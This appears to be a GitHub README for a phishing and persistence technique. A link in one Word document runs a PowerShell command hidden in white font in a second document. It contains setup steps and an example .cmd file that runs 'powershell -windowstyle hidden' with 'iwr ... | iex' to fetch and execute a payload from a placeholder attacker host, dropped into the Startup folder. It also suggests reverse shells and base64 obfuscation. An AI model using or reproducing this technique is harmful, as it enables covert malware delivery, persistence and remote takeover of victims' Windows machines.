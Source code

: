 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. The .cmd example below is made to parse a file that could contain a reverse shell. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Example .cmd
```batch
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
```
